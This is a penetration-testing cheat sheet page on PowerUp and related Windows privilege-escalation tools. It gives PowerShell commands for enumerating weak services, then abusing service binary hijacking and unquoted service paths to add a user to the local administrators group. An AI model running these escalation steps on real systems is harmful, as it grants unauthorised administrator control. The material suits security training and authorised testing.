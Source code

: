 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PowerUp

[PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) is a PowerShell tool used for privilege escalation on Windows systems. It helps identify misconfigurations and exploitable settings that allow users to elevate their privileges. It typically can be found at `/share/windows-resources/powersploit/Privesc/PowerUp.ps1`.

{% tabs %}
{% tab title="Service Cmds" %}
```powershell
# Service status
Get-Service -Name 'BackupMonitor'

# Start/Stop the service
Start-Service -Name "<ServiceName>"
Stop-Service -Name "<ServiceName>" -Force

# Restart the service
Restart-Service -Name 'BackupMonitor' -Force
```
{% endtab %}

{% tab title="AllChecks" %}
```powershell
Invoke-AllChecks
```

Details with examples on how an abuse works:

```powershell
help invoke-serviceabuse -examples
```

[PrivescCheck](https://github.com/itm4n/PrivescCheck) and [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) can also be used for full coverage:

```powershell
# PrivescCheck
Invoke-PrivEscCheck

# PEASS-ng
winPEASx64.exe -all
```
{% endtab %}

{% tab title="Binary Hijacking" %}
Enumerate potentially vulnerable services:

```powershell
# Services that user can modify their binary path or change args to the binary
Get-ModifiableServiceFile

# Service that user can modify their configurations
Get-ModifiableService

# Abuse the enumerate service
Install-ServiceBinary -Name 'mysql'

# Restart the service
Restart-Service -Name 'mysqld' -Force

# Confirm that it worked
> net localgroup administrators
```
{% endtab %}

{% tab title="Unquoted Paths" %}
{% code overflow="wrap" %}
```powershell
# Services with unquoted paths that also have a space in the name
Get-ServiceUnquoted
Get-UnquotedService

# Abuse
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

# Restart (ignore any erros)
Restart-Service GammaService

# Confirm
net localgroup administrators
```
{% endcode %}
{% endtab %}
{% endtabs %}
